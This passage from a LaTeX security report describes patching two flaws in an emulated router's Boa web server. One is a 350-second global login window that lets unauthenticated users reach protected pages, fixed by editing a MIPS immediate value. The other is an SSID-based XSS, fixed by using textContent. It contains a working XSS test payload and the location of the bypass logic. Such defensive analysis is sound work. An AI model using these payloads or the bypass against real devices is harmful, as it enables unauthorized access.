      
\includegraphics[width=0.9\textwidth]{../imgs/4.12-Ghidra3.png}
      \caption{Username comparison inside the Boa login handler}
      \label{fig:login_compare_username}
  \end{figure}

  The same logic is then applied to the password. If both comparisons succeed, execution reaches the branch that returns \emph{login\_success} (Figure~\ref{fig:login_compare_password_success}).

\begin{lstlisting}[language=Asm]
jalr    t9          ; strcmp
move    a1, s4      ; submitted password
...
login_success
\end{lstlisting}

  \begin{figure}[H]
      \centering
      
\includegraphics[width=0.9\textwidth]{../imgs/4.13-Ghidra4.png}
      \caption{Password comparison and \emph{login\_success} response}
      \label{fig:login_compare_password_success}
  \end{figure}

  After identifying the login flow, we analyzed the code executed after a successful authentication. Boa stores a temporary authentication entry in a global table. This entry is marked with the magic value \emph{0xca64} and contains a timestamp.

  We identified this mechanism by observing that, after a successful login, the login handler writes the value \emph{0xca64} into a global table. We then searched the Boa binary for other references to the same constant. Besides the login handler itself, the relevant occurrence was found around address \emph{0x0043fbac}. Inspecting the surrounding code in Ghidra showed that this occurrence belonged to a separate function starting at approximately \emph{0x0043fb68}. This function iterates over the authentication table and decides whether a request should be considered already authenticated.
  \\
  In the vulnerable version, this function checks whether the elapsed time from the saved login timestamp is lower than \emph{351} ticks:

\begin{lstlisting}[language=Asm]
lw      v0, 184(s2)     ; current time
lw      v1, 4(s3)       ; saved login time
subu    v1, v0, v1
sltiu   v1, v1, 351
bnez    v1, authenticated
\end{lstlisting}

  The instruction:

\begin{lstlisting}[language=Asm]
sltiu   v1, v1, 351
\end{lstlisting}

  means that the global authentication entry remains valid while:

\begin{lstlisting}
current_time - saved_login_time < 351
\end{lstlisting}

  Therefore, after a legitimate login, the firmware kept a reusable authenticated state for approximately 350 seconds. This explains why an unauthenticated user could access protected pages shortly after another user had logged. Figures~\ref{fig:before_vulnerable_351} and~\ref{fig:patched_stable_vulnerable_351} show that both Boa versions were still affected by this logic before the login by-pass patch was applied. The first binary was the stabilized pre-RCE-patch Boa, while the second one was the stabilized Boa with the RCE mitigation already applied. In both cases, the authentication timeout check still used the value \emph{351}.

  \begin{figure}[H]
      \centering
      
\includegraphics[width=0.9\textwidth]{../imgs/4.14-boaNoPatch_vuln.png}
      \caption{\emph{boa.before-boaPatched} with 351-tick authentication window}
      \label{fig:before_vulnerable_351}
  \end{figure}

  \begin{figure}[H]
      \centering
      
\includegraphics[width=0.9\textwidth]{../imgs/4.15-boapatch_vuln.png}
      \caption{\emph{boa.patched-stable} with 351-tick authentication window}
      \label{fig:patched_stable_vulnerable_351}
  \end{figure}

  To mitigate the issue, we patched the immediate value used by the \emph{sltiu} instruction. Instead of allowing the global authentication entry to remain valid for approximately 350 seconds, we reduced the window to approximately one second:

\begin{lstlisting}[language=Asm]
sltiu   v1, v1, 2
\end{lstlisting}

  The resulting logic becomes:

\begin{lstlisting}
current_time - saved_login_time < 2
\end{lstlisting}

  This keeps the immediate post-login redirect functional, but removes the practical attack window that allowed another unauthenticated user to reuse the recent login state.
  \\
  The patch was applied to both stabilized Boa binaries:

  \begin{itemize}
      \item \emph{boa.before-boaPatched}, used to demonstrate the firmware with RCE still present;
      \item \emph{boa.patched-stable}, used to demonstrate the firmware with RCE mitigated.
  \end{itemize}

  Figures~\ref{fig:before_patched_2} and~\ref{fig:patched_stable_patched_2} show the patched instruction in both binaries.

  \begin{figure}[H]
      \centering
      
\includegraphics[width=0.9\textwidth]{../imgs/4.16-BoaNoPatch_ok.png}
      \caption{\emph{boa.before-boaPatched} with 2 ticks}
      \label{fig:before_patched_2}
  \end{figure}

  \begin{figure}[H]
      \centering
      
\includegraphics[width=0.9\textwidth]{../imgs/4.17-Boapatch_ok.png}
      \caption{\emph{boa.patched-stable} with 2 ticks}
      \label{fig:patched_stable_patched_2}
  \end{figure}

  At binary level, the patch changes only the immediate value of the vulnerable instruction:

\begin{lstlisting}[language=Asm]
; vulnerable
sltiu   v1, v1, 351

; patched
sltiu   v1, v1, 2
\end{lstlisting}

  After applying the patch and rebuilding the Firmadyne image, we repeated the test. A legitimate user could still log in normally with valid credentials. However, when an unauthenticated user attempted to access the protected page after the valid login window had expired, Boa redirected the request to the login page and displayed the timeout message (Figure~\ref{fig:login_timeout_after_patch}).

  \begin{figure}[H]
      \centering
      
\includegraphics[width=0.9\textwidth]{../imgs/4.18-LoginIlleg_postfix.png}
      \caption{Unauthenticated user redirected to \emph{login.htm} with timeout message}
      \label{fig:login_timeout_after_patch}
  \end{figure}

  This confirms that the login by-pass was caused by an overly long global authentication window rather than by the static web pages themselves. The mitigation was therefore applied directly to Boa, where the vulnerable authentication decision was made. As a result, both firmware configurations used in our tests preserve the expected login behavior while preventing practical reuse of a previous user's authenticated state.
\\
  However, it does not implement a complete session management mechanism. The patched firmware still relies on the same global authentication table. The difference is that the table entry expires almost immediately. As a consequence, the immediate redirect after a successful login still works, but the resulting authenticated state is intentionally short-lived. This means that the patch removes the practical attack window, but it is not equivalent to a modern per-user session system.
\\
  A more complete fix would be to replace the global time-based authentication mechanism with server-side session tokens. In such a design, after a successful login Boa should generate an unpredictable session identifier, store it server-side together with its expiration time, and return it to the browser through a cookie:

\begin{lstlisting}[language=bash]
Set-Cookie: SESSION=<random_token>; Path=/; HttpOnly
\end{lstlisting}

  Then, for every protected request, Boa should parse the \emph{Cookie} header, extract the \emph{SESSION} value, and authorize the request only if the token exists in the server-side session table and has not expired:

\begin{lstlisting}[language=C]
token = get_cookie(request, "SESSION");

if (token == NULL)
    redirect_to_login();

if (!valid_session(token))
    redirect_to_login();

allow_request();
\end{lstlisting}

  This approach would bind the authenticated state to a specific session token instead of relying on a reusable global timestamp. It would also allow a reasonable timeout without exposing the same login by-pass behavior.
\\
  We did not implement this complete session-token mechanism directly in the Boa binary because it would require a much more invasive binary patch. In particular, it would require adding new logic to generate random tokens, store them, send a \emph{Set-Cookie} header in the HTTP response, parse incoming \emph{Cookie} headers, and compare the received token against the server-side table. Since we were patching an already compiled MIPS binary, adding this functionality would require finding or creating code caves, modifying control flow, and carefully preserving the binary layout, register usage, and global pointer assumptions.
\\
  For this reason, the patch implemented in this project should be considered a targeted binary mitigation of the observed CVE behavior, not a full redesign of Boa's authentication system.

    \section{Patching XSS}

          The XSS vulnerability described in Chapter~\ref{chap:exploiting} is caused by unsafe insertion of a user-controlled value into the DOM. In the vulnerable page, the SSID value is assigned to an element through \emph{innerHTML}. This API parses the assigned string as HTML markup. As a consequence, if the SSID contains tags or event handlers, the browser interprets them as part of the document.
\\
          The vulnerable rendering pattern is the following:

\begin{lstlisting}[language=xml]
var ssid = '<h1 style=color:red>XSS_OK</h1><img src=x onerror=alert(1)>';

function init() {
    var target = document.getElementById("ssidValue");
    f (target) {
        target.innerHTML = ssid;
    }
}
\end{lstlisting}

          In this case, the browser does not display the SSID as a literal string. It creates an \emph{h1} element, renders the text \emph{XSS\_OK} as HTML, creates an \emph{img} element, and executes the \emph{onerror} JavaScript handler when the image fails to load.
\\
          The mitigation consists in changing the rendering primitive. The SSID must be inserted as text, not as HTML. For this reason, the patched version uses \emph{textContent}:

\begin{lstlisting}[language=xml]
var ssid = '<h1 style=color:red>XSS_OK</h1><img src=x onerror=alert(1)>';

function init() {
    var target = document.getElementById("ssidValue");
    if (target) {
        target.textContent = ssid;
    }
}
\end{lstlisting}

          The difference is security-relevant. \emph{textContent} does not invoke the HTML parser. It replaces the textual content of the target node with the exact string provided by the application. Therefore, characters such as \emph{$<$}, \emph{$>$}, quotes and equal signs keep their literal meaning and are not interpreted as markup.
\\
          To verify the patch, we used the same payload employed during exploitation:

\begin{lstlisting}[language=HTML]
<h1 style=color:red>XSS_OK</h1><img src=x onerror=alert(1)>
\end{lstlisting}

        The patched page was reached at:

\begin{lstlisting}[language=bash]
http://192.168.10.253/status.htm
\end{lstlisting}

          In the patched page, the payload is displayed literally and no alert popup is triggered. This proves that the browser no longer treats the SSID as executable HTML.

\begin{figure}[H]
    \centering
    
\includegraphics[width=0.9\textwidth]{../imgs/4.19-xss_status_patched.png}
    \caption{Same XSS payload displayed as text in the patched page}
    \label{fig:xsspatched}
\end{figure}

          This patch preserves the intended functionality of the page: the administrator can still see the SSID value. However, the value is no longer allowed to modify the structure of the document or execute JavaScript.
          \\
          More generally, the safe rendering rule is:

          \begin{itemize}
              \item use \emph{textContent} when displaying untrusted text;
              \item avoid \emph{innerHTML} for values controlled by users or by device configuration;
              \item if HTML rendering is strictly required, sanitize the input with a whitelist-based sanitizer before inserting it into the DOM.
          \end{itemize}

          In our case, HTML rendering was not required because the SSID is a textual configuration value. Therefore, replacing \emph{innerHTML} with \emph{textContent} is the simplest and safest mitigation.

          From an implementation point of view, the patch changes only the sink, not the source of the value. The SSID can still contain arbitrary characters, but the browser receives them through a text-only DOM API.
          \\
          This is preferable to filtering specific substrings such as \emph{script}, \emph{onerror}, or angle brackets, because blacklist-based filtering is incomplete and can usually be bypassed with alternative tags, encodings, or event handlers.